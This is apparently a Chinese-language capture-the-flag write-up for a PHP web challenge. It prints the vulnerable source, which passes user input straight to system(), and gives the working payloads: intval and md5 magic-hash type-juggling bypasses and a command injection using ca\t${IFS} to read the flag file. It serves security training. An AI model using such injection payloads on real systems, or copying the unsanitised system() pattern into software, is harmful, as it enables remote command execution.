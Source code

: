 # [WUSTCTF2020]朴实无华
![](<./img/Pasted image 20221121210931.png>)

---
首页长这样

![](<./img/Pasted image 20221121210920.png>)

很怪，标题编码出了点问题，burp里面又能正确显示

![](<./img/Pasted image 20221121211528.png>)

有报错，但没看懂.jpg

用`dirsearch`扫扫看

![](<./img/Pasted image 20221121214141.png>)
```php
/robots.txt
```
![](<./img/Pasted image 20221121212704.png>)

```php
/fAke_f1agggg.php
```
![](<./img/Pasted image 20221121212912.png>)

是假的呜呜呜～

但是翻响应头翻到了点东西

![](<./img/Pasted image 20221121212901.png>)

```php
/fl4g.php
```
![](<./img/Pasted image 20221121213632.png>)

hmmm，为啥又是烦人的编码问题啊啊啊

搜了下，最后害得先进的浏览器收拾摊子

![](<./img/Pasted image 20221121213808.png>)

---
```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

---
`level 1`的弱类型比较利用半天没过去，结果发现自己本地跑的`php`版本太高，已经修复了。

大致就是利用`$num+1`时字符串隐式转换的规则和`intval`不同来绕过
```php
/?num=1e5
```

---
`level 2`是md5弱类型比较绕过，`0e`打头的字符串弱类型比较时等价于`0`，网上有大佬写了代码枚举自身`0e`打头，`md5`值也为`0e`打头的字符串

https://blog.csdn.net/SopRomeo/article/details/106237931
```python
def run():
    i = 0
    while True:
        text = '0e{}'.format(i)
        m = md5(text)
        print(text,m)
        if m[0:2] == '0e' :
            if m[2:].isdigit():
                find=[]
                print('find it:',text,":",m)
                find = find.append(text)
        i +=1
    return find

t = run()
print(t)
```

```php
/?num=1e5&md5=0e215962017
```

---
`get flag`就氵起来了
```php
/?num=1e5&md5=0e215962017&get_flag=ls
```
![](<./img/Pasted image 20221121224622.png>)
```php
/?num=1e5&md5=0e215962017&get_flag=ca\t${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```
![](<./img/Pasted image 20221121224740.png>)

#Web #PHP #字符 #encoding #目录扫描 #HTTP #Header #代码审计 #function #bypass #md5 #Misc #shell #RCE 